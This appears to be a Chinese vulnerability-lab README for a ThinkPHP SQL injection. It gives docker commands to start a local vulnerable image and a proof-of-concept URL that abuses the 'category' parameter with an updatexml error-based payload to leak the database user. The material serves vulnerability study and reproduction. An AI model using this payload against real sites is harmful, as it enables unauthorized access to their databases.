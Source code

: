 ## ThinkPHP Builder.php SQL注入漏洞

### 漏洞信息

 - [敏信审计系列之THINKPHP3.2开发框架](https://mp.weixin.qq.com/s/4xXS7usHMFNgDTEHcHBcBA)
 - [代码审计|ThinkPHP 5.0.x框架SQL注入](https://mp.weixin.qq.com/s/lNaH2-AAtk9JVKbbCBeIRA)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:t_thinkphp_1
 ```

2. 启动环境

 ```
$ docker run -d -p 80:80 medicean/vulapps:t_thinkphp_1
 ```
 > `-p 80:80` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 80

#### PoC

1. 访问 `http://127.0.0.1/`，测试服务是否启动成功。

 > 该 Demo 是个消息盒子，灰色是已读消息，黑色为未读消息，当批量标记已读时，会触发漏洞

 ![](http://vulapps.poetn.cc/images/t_thinkphp_1_1.png)

2. 打开Burp，开启抓包，选择消息类别后，点击「标记已读」按钮，截获到数据包

 该请求为 GET, 请求的 URL 为: 
 ```
http://127.0.0.1/Home/Index/readcategorymsg?category=%E7%B3%BB%E7%BB%9F%E6%B6%88%E6%81%AF
 ```

 ![](http://vulapps.poetn.cc/images/t_thinkphp_1_2.png)

3. 修改GET参数`category`,提交到服务端后页面出现SQL注入报错结果:

 ```
http://127.0.0.1/Home/Index/readcategorymsg?category[0]=bind&category[1]=0 and (updatexml(1,concat(0x7e,(user())),0))
 ```

 ![](http://vulapps.poetn.cc/images/t_thinkphp_1_3.png)

 > 如果使用了参考文章中的 exp , 在尝试的时候出现`1690:DOUBLE value is out of range in 'exp(~((select 'a'.'user()' from (select user() AS 'user()') 'a')))'` 只返回了语句并未报出结果，是因为使用的 mysql exp 报错注入会因为 mysql 版本的原因可能会不成功，建议使用 updatexml 来进行

 **注意：当DEBUG模式关闭时，不会显示报错信息！**

### 参考链接

- [敏信审计系列之THINKPHP3.2开发框架](https://mp.weixin.qq.com/s/4xXS7usHMFNgDTEHcHBcBA)
- [代码审计 | ThinkPHP 5.0.x框架SQL注入](https://mp.weixin.qq.com/s/lNaH2-AAtk9JVKbbCBeIRA)
